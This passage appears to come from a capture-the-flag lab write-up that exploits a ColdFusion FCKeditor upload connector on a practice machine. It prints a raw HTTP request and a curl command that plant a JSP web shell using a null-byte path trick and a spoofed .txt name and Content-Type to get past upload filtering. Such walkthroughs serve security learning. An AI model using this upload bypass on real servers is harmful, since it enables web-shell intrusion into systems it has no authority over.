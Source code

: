     
                    <script type="text/javascript">
                            window.parent.OnUploadCompleted( 202, "", "shell.jsp", "0" );
                    </script>
    

Once that finishes, there’s a new folder at the root:

![image-20200513094548902](https://0xdfimages.gitlab.io/img/image-20200513094548902.png)

But there’s no file in `/userfiles/file/`. I must have hit some filter. My
request looks like:

    
    
    POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00 HTTP/1.1
    Host: 10.10.10.11:8500
    User-Agent: curl/7.68.0
    Accept: */*
    Content-Length: 1700
    Content-Type: multipart/form-data; boundary=------------------------2cf8346e8d23a757
    Expect: 100-continue
    Connection: close
    
    --------------------------2cf8346e8d23a757
    Content-Disposition: form-data; name="newfile"; filename="shell.jsp"
    Content-Type: application/octet-stream
    
    <%@page import="java.lang.*"%>
    <%@page import="java.util.*"%>
    <%@page import="java.io.*"%>
    <%@page import="java.net.*"%>
    ...[snip]...
    

There’s two things I need to set to get this upload to work, and both are set
in the MSF exploit. First, I can’t have the filename end in `jsp`. That will
be filtered out. The MSF script uses `.txt`, so I’ll mimic that by making a
copy of my payload named `shell.txt`. The MSF script also sets the `Content-
Type` on the file to `application/x-java-archive`.

I’ll update the `curl`. I can adjust headers inside the form data by adding it
inside the `-F` argument separated by `;`:

    
    
    # curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'
    

Now visiting `/userfiles/file/` shows the uploaded shell:

![image-20200513095953434](https://0xdfimages.gitlab.io/img/image-20200513095953434.png)
